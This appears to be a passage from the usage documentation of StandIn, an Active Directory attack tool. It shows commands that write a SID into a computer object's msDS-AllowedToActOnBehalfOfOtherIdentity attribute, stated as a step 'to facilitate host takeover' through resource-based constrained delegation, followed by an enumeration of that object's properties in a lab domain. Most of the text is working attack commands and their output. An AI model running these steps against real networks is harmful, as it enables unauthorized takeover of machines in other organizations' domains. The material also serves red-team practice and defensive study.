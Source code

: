 Add an `msDS-AllowedToActOnBehalfOfOtherIdentity` propert to the machine along with a SID to facilitate host takeover using resource based constrained delegation.

```
C:\> StandIn.exe --computer m-10-1909-03 --sid S-1-5-21-1293271031-3053586410-2290657902-1205

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] SID added to msDS-AllowedToActOnBehalfOfOtherIdentity

C:\> StandIn.exe --object samaccountname=m-10-1909-03$

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[?] Iterating object properties

[+] logoncount
    |_ 107
[+] codepage
    |_ 0
[+] objectcategory
    |_ CN=Computer,CN=Schema,CN=Configuration,DC=main,DC=redhook,DC=local
[+] iscriticalsystemobject
    |_ False
[+] operatingsystem
    |_ Windows 10 Enterprise
[+] usnchanged
    |_ 195771
[+] instancetype
    |_ 4
[+] name
    |_ M-10-1909-03
[+] badpasswordtime
    |_ 7/9/2020 5:07:11 PM UTC
[+] pwdlastset
    |_ 10/29/2020 6:44:08 PM UTC
[+] serviceprincipalname
    |_ TERMSRV/M-10-1909-03
    |_ TERMSRV/m-10-1909-03.main.redhook.local
    |_ WSMAN/m-10-1909-03
    |_ WSMAN/m-10-1909-03.main.redhook.local
    |_ RestrictedKrbHost/M-10-1909-03
    |_ HOST/M-10-1909-03
    |_ RestrictedKrbHost/m-10-1909-03.main.redhook.local
    |_ HOST/m-10-1909-03.main.redhook.local
[+] objectclass
    |_ top
    |_ person
    |_ organizationalPerson
    |_ user
    |_ computer
[+] badpwdcount
    |_ 0
[+] samaccounttype
    |_ SAM_MACHINE_ACCOUNT
[+] lastlogontimestamp
    |_ 10/29/2020 12:29:26 PM UTC
[+] usncreated
    |_ 31127
[+] objectguid
    |_ c02cff97-4bfd-457c-a568-a748b0725c2f
```